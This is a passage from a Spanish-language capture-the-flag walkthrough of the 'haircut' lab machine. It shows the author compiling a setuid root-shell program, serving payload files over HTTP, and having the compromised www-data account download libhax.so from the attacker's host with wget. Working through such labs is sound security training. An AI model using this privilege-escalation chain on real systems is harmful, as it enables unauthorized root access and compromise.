 Nos aparece un **Warning**, pero no hay problema. Ahora borramos el archivo `libhax.c`, creamos el archivo `rootshell.c` y lo compilamos:

```c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
```

```bash
❯ rm libhax.c
❯ gcc -o rootshell rootshell.c
rootshell.c: In function ‘main’:
rootshell.c:3:5: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
    3 |     setuid(0);
      |     ^~~~~~
rootshell.c:4:5: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]
    4 |     setgid(0);
      |     ^~~~~~
rootshell.c:5:5: warning: implicit declaration of function ‘seteuid’ [-Wimplicit-function-declaration]
    5 |     seteuid(0);
      |     ^~~~~~~
rootshell.c:6:5: warning: implicit declaration of function ‘setegid’ [-Wimplicit-function-declaration]
    6 |     setegid(0);
      |     ^~~~~~~
rootshell.c:7:5: warning: implicit declaration of function ‘execvp’ [-Wimplicit-function-declaration]
    7 |     execvp("/bin/sh", NULL, NULL);
      |     ^~~~~~
rootshell.c:7:5: warning: too many arguments to built-in function ‘execvp’ expecting 2 [-Wbuiltin-declaration-mismatch]
❯ rm rootshell.c
```

De igual forma, nos salen unos **Warning**, pero no hay problema. Ahora tenemos de transferir los archivos resultantes a la máquina víctima en la ruta `/tmp/` y lo haremos compartiendo un servidor HTTP con python y la herramienta `wget`:

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.24 - - [18/Oct/2021 21:38:49] "GET /libhax.so HTTP/1.1" 200 -
10.10.10.24 - - [18/Oct/2021 21:38:58] "GET /rootshell HTTP/1.1" 200 -
```

```bash
www-data@haircut:/$ cd /tmp
www-data@haircut:/tmp$ wget http://10.10.14.16/libhax.so
--2021-10-19 04:43:40--  http://10.10.14.16/libhax.so
Connecting to 10.10.14.16:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 16136 (16K) [application/octet-stream]
Saving to: 'libhax.so'

libhax.so                        100%[=======================================================>]  15.76K  --.-KB/s    in 0.1s    

2021-10-19 04:43:41 (114 KB/s) - 'libhax.so' saved [16136/16136]
```